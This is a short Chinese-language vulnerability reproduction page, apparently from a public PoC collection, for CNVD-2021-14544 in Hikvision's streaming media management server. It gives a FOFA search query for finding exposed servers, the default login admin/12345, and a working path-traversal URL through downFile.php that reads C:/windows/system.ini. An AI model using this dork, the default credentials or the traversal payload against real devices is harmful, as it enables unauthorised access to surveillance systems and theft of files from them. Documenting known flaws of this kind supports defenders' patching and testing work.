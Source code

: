 # HIKVISION-流媒体管理服务器-后台任意文件读取漏洞-CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> HIKVISION 流媒体管理服务器

## FOFA

> [!NOTE]
>
> title="流媒体管理服务器"

## 漏洞复现

登录页面如下， 默认账号密码为 **admin/12345**

![](HIKVISION-流媒体管理服务器-后台任意文件读取漏洞-CNVD-2021-14544.assets/1627363581591087.jpg)

POC如下，访问如下Url下载 system.ini文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

![](HIKVISION-流媒体管理服务器-后台任意文件读取漏洞-CNVD-2021-14544.assets/1627363581946468.jpg)

成功读取 **C:/windows/system.ini**

